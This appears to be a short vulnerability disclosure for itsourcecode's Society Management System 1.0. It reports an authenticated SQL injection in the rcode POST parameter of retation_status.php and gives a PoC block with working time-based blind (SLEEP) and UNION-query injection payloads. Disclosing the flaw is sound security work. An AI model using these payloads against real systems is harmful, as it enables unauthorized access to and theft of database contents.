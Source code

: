 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

After logging into the administrator account, use the POST method to request the/retation_status.php page, with the rcode parameter included in the request. Due to the page's lax filtering of rcode parameters, SQL injection vulnerabilities have been created.
<img width="1091" alt="image" src="https://github.com/user-attachments/assets/d30223c0-3807-4c7a-a916-220cf486891f">


# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 9171 FROM (SELECT(SLEEP(5)))KcsI) AND 'jidV'='jidV

    Type: UNION query
    Title: Generic UNION query (NULL) - 26 columns
    Payload: rcode=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176706271,0x4d78644f7042646e4f6b4b56754f67766354594c7759596f577845587869484d636b6e51794c4f70,0x7176626271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
<img width="1126" alt="image" src="https://github.com/user-attachments/assets/c1f6b5c9-8734-4f5d-846c-f2a26b919d1d">
